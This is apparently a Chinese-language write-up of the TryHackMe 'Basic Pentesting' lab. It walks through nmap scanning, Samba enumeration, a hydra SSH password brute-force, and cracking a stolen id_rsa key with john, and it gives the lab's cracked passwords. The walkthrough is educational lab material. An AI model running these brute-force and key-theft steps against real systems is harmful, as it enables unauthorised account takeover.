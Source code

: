 ```yaml
---
description: 本文相关内容：针对目标机器，练习攻击Web应用程序以及进行权限提升。
cover: ../../.gitbook/assets/moMbBki.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Basic Pentesting-练习

TryHackMe实验房间链接：[https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)



## Web应用程序测试和提权(横向)练习

难度：easy

机器地址：

目标机ip：10.10.144.213

攻击机ip（OPENVPN连接时，为tun0地址）：10.14.30.69

**相关知识点：**

* 目录爆破
* hash解密
* 服务信息枚举
* Linux信息枚举

**操作：**

使用nmap进行端口扫描：

```shell
nmap -sV -sC -T4 10.10.144.213
#可以使用-oN 将nmap扫描的结果输出为具有普通格式的文本
```

![image-20221012172252559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012172252559.png)

使用 dirsearch/dirbuster 查找Web 服务器的隐藏目录：

![image-20221012173810085](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012173810085.png)

获取目标机用户名：

_方法一：_

```shell
enum4linux  10.10.144.213 
```

![image-20221012181056091](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012181056091.png)

_方法二：_

```shell
#由之前的nmap扫描结果可知：目标机运行了Samba服务
#我们尝试使用匿名登录Samba
smbclient //10.10.144.213/anonymous 
#发现员工信息，成功获取目标机用户名
```

![image-20221012192545313](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012192545313.png)

获取用户用于ssh连接的密码：

```
hydra -l jan -P rockyou.txt ssh://10.10.144.213 
```

![image-20221012180924886](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012180924886.png)

使用ssh登陆目标机的用户账号查看敏感文件

```shell
ssh jan@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa 
#输入密码：armando
```

![image-20221012194722862](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012194722862.png)

发现其他用户的hash密钥--id\_rsa，将该密钥内容复制到攻击机上的idrsa.id\_rsa 中，先对idrsa.id\_rsa 进行加权操作，再尝试使用idrsa.id\_rsa通过ssh登录另一目标机用户，发现需要密码口令，在攻击机上使用john对idrsa.id\_rsa进行hash破解：

```shell
chmod 600 idrsa.id_rsa 
# ssh -i idrsa.id_rsa kay@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa 执行失败 提示输入密码口令
#提取密钥hash值
ssh2john idrsa.id_rsa > id_rsa_hash.txt
#破解hash值
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

![image-20221012195049211](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012195049211.png)

使用密码口令和idrsa.id\_rsa 通过ssh登陆目标机的另一用户账号，并查看敏感文件信息：

```shell
ssh -i idrsa.id_rsa kay@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa
#输入密码口令 beeswax
```

![image-20221012200551375](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012200551375.png)

**答题卡**

![image-20221012201210559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012201210559.png)
